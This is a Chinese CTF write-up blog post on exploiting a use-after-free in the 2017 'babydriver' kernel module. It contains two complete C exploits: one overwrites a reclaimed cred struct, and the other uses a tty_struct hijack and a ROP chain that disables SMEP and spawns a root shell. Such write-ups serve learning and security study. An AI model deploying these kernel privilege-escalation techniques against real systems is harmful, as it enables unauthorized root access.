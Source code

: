 ```yaml
---
layout: post
title: Linux  Kernel  Pwn  UAF
description: 学习Linux Kernel PWN 的UAF漏洞
categories:  Linux-Kernel-Pwn
---
```




<!-- more -->

# 0x01 背景知识

**UAF漏洞**：UAF 漏洞是当我们 free 掉某个指针变量所指向的堆块的时候，未将该指针变量置0，导致该指针依然指着该堆块地址，当我们引用该指针的话，也就引用该指针所所指向的地址。这个漏洞对于开发者很容易忽略，但威力非常强大

**条件竞争**：在多线程的环境下，当多个线程同时访问某一个共享代码、变量或文件的时候，就有可能发生条件竞争的漏洞，利用该漏洞可以产生意想不到的效果，不过有时候需要碰撞该漏洞才行，有一定失败几率。（在linux kernel pwn里面一般开了多线程就很有可能是利用条件竞争）

**cred**：当我们fork一个新的进程的时候会产生cred结构体，在task_struct中大小为0xa8，注意当cred的uid,gid为0的话，我们就提权成功

**ptmx**:当我们open("/dev/ptmx")的时候，会分配一个tty_operation的结构体,覆盖该结构体可以将控制流劫持到我们的代码中

 **cr4**：控制寄存器,功能之一开启关闭smep和smap保护，只要将cr4寄存器对应SMAP、SMEP保护位置为0即可关闭对应保护，常用mov,cr4,0x6f0

# 0x02 2017国赛 babydriver
#### 保护分析
只开启了 nx 保护
 ![](/images/character2/UAF1.png)
只开启smep，不能ret2usr
 ![](/images/character2/UAF2.png)
#### 逻辑分析
**ioctl**：kfree 掉device_buf,kmalloc用户指定大小的堆块
 ![](/images/character2/UAF3.png)
**babywrite**：从用户的buf里面写入到device_buf,大小要小于堆块的大小
 ![](/images/character2/UAF4.png)
**babyread **：将device_buf读入到用户指定的buf
![](/images/character2/UAF5.png)
 **babyrelease**:kfree 掉指定的 device_buf,但没有置0，UAF 漏洞
 ![](/images/character2/UAF6.png)

# 0x03 编写EXP
EXP思路1：
1.fd1,fd2打开device
2.fd1用ioctl 让 device 去 malloc 0xa8大小的堆块后free掉
3.fork一个新的进程
4.用fd2将device_buf全都置0
5.执行system('/bin/sh')

这里很多人可能看不明白3-5，详细讲下：linux kernel使用slab分配器来分配堆块，就像fastbin的后进先出一样，当我们fork一个新的进程后，会malloc一个0xa8大小的cred的结构体，此时slab会找到device_buf对应的堆块地址并分配给cred，只要我们用uaf将这个cred对应的uid，gid设置为0，则该进程对应的权限即为root权限，然后执行system("/bin/sh")就会得到shell了

exp代码如下：
一些编写exp的技巧我已写在上一篇文章中

```
#include<stdio.h>
#include<fcntl.h>
#include <unistd.h>
int main(){
    int fd1,fd2,id;
    char cred[0xa8] = {0};
    fd1 = open("dev/babydev",O_RDWR);
    fd2 = open("dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0xa8);
    close(fd1);
    id = fork();
    if(id == 0){
        write(fd2,cred,28);
        if(getuid() == 0){
            printf("[*]welcome root:\n");
            system("/bin/sh");
            return 0;
        }
    }
    else if(id < 0){
        printf("[*]fork fail\n");
    }
    else{
        wait(NULL);
    }
    close(fd2);
    return 0;
}

```
EXP思路2:
关闭cr4，然后ret2usr
1.fd1,fd2打开device
2.fd1用ioctl 让 device 去 malloc 0x2e0大小的堆块后free掉
3.fd3打开ptmx创建tty_struct到device_buf的地址
4.fd2读取tty_struct到用户的buf中
5.利用uaf，让fd2的重写tty_struct，将里面的tty_operation劫持到我们伪造的fake_tty_operation，fake_tty_operation放入rop，使用write的时候即可调用rop
6.fd3执行write，调用tty_operation[3]，这里放入mov,rsp,rax执行栈劫持，rax是我们fake_tty_opeartion的结构体,就可以实现rop了
 ![](/images/character2/UAF7.png)

exp代码如下:

```
//poc.c
//gcc poc.c -o poc -w -static
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>
unsigned long user_cs, user_ss, user_eflags,user_sp;
size_t commit_creds_addr = 0xffffffff810a1420;
size_t prepare_kernel_cred_addr = 0xffffffff810a1810;
void* fake_tty_opera[30];
 
void shell(){
    system("/bin/sh");
}
 
void save_stats(){
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
        :
        : "memory"
    );
}
 
void get_root(){
    char* (*pkc)(int) = prepare_kernel_cred_addr;
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
 
int main(){
    int fd1,fd2,fd3,i=0;
    size_t fake_tty_struct[4] = {0};
    size_t rop[20]={0};
    save_stats();
 
    rop[i++] = 0xffffffff810d238d;      //pop_rdi_ret
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80;      //mov_cr4_rdi_pop_rbp_ret
    rop[i++] = 0x6161616161;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff81063694;      //swapgs_pop_rbp_ret
    rop[i++] = 0x6161616161;
    rop[i++] = 0xffffffff814e35ef;      // iretq; ret;
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_eflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
 
    for(i = 0; i < 30; i++)
    {
        fake_tty_opera[i] = 0xffffffff8181bfc5; //pop rax,pop rbp,ret
    }
    ////pop rax; pop rbp; ret;
    fake_tty_opera[0] = 0xffffffff810635f5;     
    fake_tty_opera[1] = (size_t)rop;

    //当调用write时，就会指向3，此时mov rsp,rax ; dec ebx ; ret
    //执行完后，rsp=fake_tty_opera[0],就会执行从我们构造的栈，执行了。
    fake_tty_opera[3] = 0xffffffff8181bfC5;    
    fake_tty_opera[7] = 0xffffffff8181bfc5; 
 
    fd1 = open("/dev/babydev",O_RDWR);
    fd2 = open("/dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0x2e0);
    close(fd1);
    fd3 = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    read(fd2, fake_tty_struct, 32);
    fake_tty_struct[3] = (size_t)fake_tty_opera;
    write(fd2,fake_tty_struct, 32);
    write(fd3,"cc-sir",6);                      //触发rop
    return 0;
}

```
# 0x04 总结
Linux Kernel Pwn不只是commit_creds(prepare_kernel_cred(0))这一条路，条条道路通罗马，要想对Linux Kernel完全渗透利用，必须要对Linux操作系统和内核源码理想透彻

题目下载地址：https://github.com/Vinadiak/LinuxKernelPwn/tree/master/2017%20babydriver
